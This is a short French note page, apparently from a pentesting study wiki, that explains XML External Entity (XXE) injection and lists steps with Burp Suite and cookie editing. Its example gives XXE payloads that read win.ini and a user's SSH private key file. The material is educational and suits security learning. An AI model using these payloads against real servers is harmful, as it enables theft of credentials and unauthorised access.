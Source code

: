 <sub>[Procédure serveur](server_procedure.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Cryptage](cryptage.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Outils](tools.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Sites utiles](useful_website.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Lexique](lexique.md)&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;[Index](index.md)</sub>
<sub>[Retour](index.md)</sub>
#XML External Entities (XEE ou XXE)

**Présentation :** Tenter de trouver une faille dans les inputs puis d'intercepter et de modifier les requêtes pour pénétrer le serveur


**Procédure :**
- tenter [SSTI](ssti.md)
- on repère une requête qui reçoit un argument
- Avec [Burp Suite](burp_suite.md), tenter d'intercepter et de modifier les requêtes pour pénétrer le serveur
- Identifier la présence de [cookies](cookies.md)
- Modifier en live les [cookies](cookies.md) si besoin avec [Cookie Editor](cookie_editor.md)
 

**Exemple :**
- on regarde le retour du service, si il affiche une valeur on peut très bien remplacer la valeur avec burpsuite :
  - *<<span>!DOCTYPE root [<<span>!ENTITY test SYSTEM 'file<span>:<span>///c:/windows/win.ini'>]>*
              puis on modifie par ex : <<item>Magasin</item> par item>&test;</item>
              => si XEE possible on devrait avoir un retour avec affichage d'infos
              => autre exemple => <<span>!DOCTYPE root [<<span>!ENTITY test SYSTEM '<span>file:///c:/users/daniel/.ssh/id_rsa'>]>
